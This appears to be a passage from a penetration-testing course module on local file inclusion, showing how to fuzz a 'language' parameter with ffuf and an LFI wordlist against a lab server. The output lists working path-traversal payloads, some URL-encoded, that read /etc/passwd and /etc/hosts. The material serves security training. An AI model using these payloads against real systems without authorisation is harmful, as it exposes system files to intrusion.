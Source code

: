 Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests discussed in this module. This is not unique to LFI vulnerabilities but also applies to most web vulnerabilities discussed in other modules, as exposed parameters may be vulnerable to any other vulnerability as well.

Tip: For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

***

### LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

```shell-session
root@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.
